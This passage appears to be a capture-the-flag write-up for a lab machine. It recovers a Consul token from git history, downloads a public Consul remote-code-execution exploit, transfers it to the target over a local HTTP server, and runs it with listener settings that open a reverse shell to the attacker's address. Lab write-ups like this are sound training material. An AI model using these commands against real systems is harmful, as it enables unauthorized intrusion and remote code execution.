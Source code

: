```bash
0000000000000000000000000000000000000000 4b8597b167b2fbf8ec35f992224e612bf28d9e51 Developer <developer@ambassador.local> 1647211451 +0000       commit (initial): .gitignore
4b8597b167b2fbf8ec35f992224e612bf28d9e51 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6 Developer <developer@ambassador.local> 1647211621 +0000       commit: created project with django CLI
8dce6570187fd1dcfb127f51f147cd1ca8dc01c6 c982db8eff6f10f8f3a7d802f79f2705e7a21b55 Developer <developer@ambassador.local> 1647215085 +0000       commit: config script
c982db8eff6f10f8f3a7d802f79f2705e7a21b55 33a53ef9a207976d5ceceddc41a199558843bf3c Developer <developer@ambassador.local> 1647215256 +0000       commit: tidy config script
33a53ef9a207976d5ceceddc41a199558843bf3c 33a53ef9a207976d5ceceddc41a199558843bf3c Developer <developer@ambassador.local> 1647217299 +0000       Branch: renamed refs/heads/master to refs/heads/main
```

These 2 commits about the config script are worth having a look at. We can find a way to have a look at a specific commit [here](https://git-scm.com/docs/git-show). This command should help us.

> Note don't waste time on trying to use git commands elsewhere that in the my-app folder ^_-  

We can try this `git show c982db8eff6f10f8f3a7d802f79f2705e7a21b55`. It leaks a token `--token bb03b43b-1d81-d62b-24b5-39540ee469b5` and mentions Consul. We need to check out more about Consul  
![token leaked](../.res/2022-12-27-15-15-52.png)  
The other commit on a config file was just done to remove the token.  
[Here](https://www.consul.io/) is consul's website.  
It seems like a juicy tool for security "Consul uses service identities and traditional networking practices to help organizations securely connect applications running in any environment."

- Let's see if we can find some exploits online
- I tried a few but the only one that worked was [this one ](https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API) `wget https://raw.githubusercontent.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API/main/exploit.py`
- We have to get it in our target `python3 -m http.server 80` we launch our http server
- `wget http://10.10.14.5/exploit.py` we take the exploit from our target
- It needs a few things to work  
![exploit requirements](../.res/2022-12-27-15-59-10.png)  
- `python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.5 --lport 4444 -tk bb03b43b-1d81-d62b-24b5-39540ee469b5`  
